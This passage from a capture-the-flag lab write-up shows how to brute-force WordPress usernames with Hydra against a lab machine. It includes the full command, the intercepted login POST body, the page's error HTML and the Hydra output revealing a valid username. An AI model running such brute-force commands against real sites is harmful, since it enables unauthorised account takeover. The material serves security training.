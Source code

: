 With that interception, we can try to bruteforce now with `hydra`.

I baked following command:

` hydra -L fsocity.dic -p test 10.10.83.180 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30`

- `-L` for wordlist, we need to know the user first
- `-p test` we try as password "test" for every user in the list
- `10.10.83.180` our target ip address
- `http-post-form` we have to bruteforce `http-post-form`
- `/wp-login.php` the exact path where we want to brute force
- `log: ^USER^`The parameter log represents the username field in the WordPress login form. The ^USER^ placeholder is where Hydra will insert each username 
- `&pwd=^PWD^` is where hydra inserts the password
- `false user` This is the string Hydra will search for in the server's response to determine if a login attempt failed
- `-t 30` This sets the number of concurrent connections to 30


Okay that is a lot of information. But thats why we did the `http-interception` before: 

```bash
log=admin&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.83.180%2Fwp-admin%2F&testcookie=1
```

We know, that `log` is the `username` field nad `pwd` the `password` field. The field `Invalid username` we can get from the page source.

```html

<body class="login login-action-login wp-core-ui  locale-en-us">
	<div id="login">
		<h1><a href="https://wordpress.org/" title="Powered by WordPress" tabindex="-1">user&#039;s Blog!</a></h1>
	<div id="login_error">	<strong>ERROR</strong>: Invalid username. <a href="http://10.10.250.121/wp-login.php?action=lostpassword">Lost your password?</a><br/>
</div>

<form name="loginform" id="loginform" action="http://10.10.250.121/wp-login.php" method="post">
	<p>
```


Okay lets bruteforce the `username` now:

```bash

┌──(admin㉿PREDATOR-01)-[~/Downloads]
└─$ hydra -L fsocity.dic -p test 10.10.250.121 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-22 16:22:37
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 30 tasks per 1 server, overall 30 tasks, 858235 login tries (l:858235/p:1), ~28608 tries per task
[DATA] attacking http-post-form://10.10.250.121:80/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username
[80][http-post-form] host: 10.10.250.121   login: Elliot   password: test

```
